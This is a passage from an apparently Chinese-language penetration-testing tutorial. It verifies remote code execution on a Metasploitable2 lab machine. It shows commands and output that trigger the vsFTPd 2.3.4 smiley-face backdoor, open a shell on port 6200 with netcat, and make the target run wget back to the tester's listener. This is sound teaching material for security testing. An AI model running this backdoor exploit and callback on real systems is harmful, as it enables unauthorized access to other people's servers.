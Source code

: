 这个 Python 脚本使用套接字库来生成一个 Web 服务器，该服务器监听所有本地接口的 TCP 8000 端口。 接收到来自客户端的连接时，脚本将返回客户端的 IP 地址和发送的请求。 为了使用此脚本验证漏洞，我们需要执行代码，使远程系统与托管的 Web 服务进行交互。 但在这之前，我们需要使用以下命令启动我们的脚本：

```
root@KaliLinux:~# ./httprecv.py 
Awaiting connection... 
```

接下来，我们需要利用导致远程代码执行的漏洞。 通过检查 Metasploitable2 盒子内的 Nessus 扫描结果，我们可以看到运行的 FTP 服务有一个后门，可以通过提供带有笑脸的用户名来触发。 没有开玩笑......这实际上包含在 FTP 生产服务中。 为了尝试利用它，我们将首先使用适当的用户名连接到服务，如下所示：

```
root@KaliLinux:~# ftp 172.16.36.135 21 
Connected to 172.16.36.135. 
220 (vsFTPd 2.3.4) 
Name (172.16.36.135:root): Hutch:) 
331 Please specify the password. 
Password: 
^C 
421 Service not available, remote server has closed connection 
```

尝试连接到包含笑脸的用户名后，后门应该在远程主机的 TCP 端口 6200 上打开。我们甚至不需要输入密码。 反之，`Ctrl + C`可用于退出 FTP 客户端，然后可以使用 Netcat 连接到打开的后门，如下所示：

```
root@KaliLinux:~# nc 172.16.36.135 6200 
wget http://172.16.36.224:8000 
--04:18:18--  http://172.16.36.224:8000/
           => `index.html' 
Connecting to 172.16.36.224:8000... connected. 
HTTP request sent, awaiting response... No data received. 
Retrying.

--04:18:19--  http://172.16.36.224:8000/  
  (try: 2) => `index.html' 
Connecting to 172.16.36.224:8000... failed: Connection refused. 
^C
```

与开放端口建立 TCP 连接后，我们可以使用我们的脚本来验证，我们是否可以进行远程代码执行。 为此，我们尝试以 HTTP 检测服务器的 URL 使用`wget`。 尝试执行此代码后，我们可以通过查看脚本输出来验证是否收到了 HTTP 请求：

```
root@KaliLinux:~# ./httprecv.py 
Received connection from :  172.16.36.135 
GET / HTTP/1.0 
User-Agent: Wget/1.10.2 
Accept: */* 
Host: 172.16.36.224:8000 
Connection: Keep-Alive
```

### 工作原理

此脚本的原理是识别来自远程主机的连接尝试。 执行代码会导致远程系统连接回我们的监听服务器，我们可以通过利用特定的漏洞来验证远程代码执行是否存在。 在远程服务器未安装`wget`或`curl`的情况下，可能需要采用另一种手段来识别远程代码执行。
